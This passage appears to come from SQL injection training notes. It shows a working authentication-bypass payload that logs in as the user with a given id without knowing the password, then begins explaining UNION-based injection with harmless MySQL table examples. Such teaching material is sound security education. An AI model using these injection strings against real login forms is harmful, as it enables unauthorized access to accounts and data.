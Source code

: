If we want to log in as user with `id = 5` but we don't know the username, inject the following string in username and password fields
* Username: `' OR id = 5) -- -`
* Password: `<empty>`
Note: the usage of `OR` instead than `AND` is important for allowing it to work correctly.

The final query will be:
```sql
SELECT * FROM logins WHERE (username='' OR id = 5) -- -' AND id > 1) AND password = 'd41d8cd98f00b204e9800998ecf8427e';
```

## Union Clause

Another type of SQL injection is injecting entire SQL queries executed along with the original query. This section will demonstrate this by using the MySQL `Union` clause to do `SQL Union Injection`.

### Union

Before we start learning about Union Injection, we should first learn more about the SQL Union clause. The [Union](https://dev.mysql.com/doc/refman/8.0/en/union.html) clause is used to combine results from multiple `SELECT` statements. This means that through a `UNION` injection, we will be able to `SELECT` and dump data from all across the DBMS, from multiple tables and databases. Let us try using the `UNION` operator in a sample database. First, let us see the content of the `ports` table:
```
mysql> SELECT * FROM ports;

+----------+-----------+
| code     | city      |
+----------+-----------+
| CN SHA   | Shanghai  |
| SG SIN   | Singapore |
| ZZ-21    | Shenzhen  |
+----------+-----------+
3 rows in set (0.00 sec)
```

Next, let us see the output of the `ships` tables:
```
mysql> SELECT * FROM ships;

+----------+-----------+
| Ship     | city      |
+----------+-----------+
| Morrison | New York  |
+----------+-----------+
1 rows in set (0.00 sec)
```

Now, let us try to use `UNION` to combine both results:

```
mysql> SELECT * FROM ports UNION SELECT * FROM ships;

+----------+-----------+
| code     | city      |
+----------+-----------+
| CN SHA   | Shanghai  |
| SG SIN   | Singapore |
| Morrison | New York  |
| ZZ-21    | Shenzhen  |
+----------+-----------+
4 rows in set (0.00 sec)
```
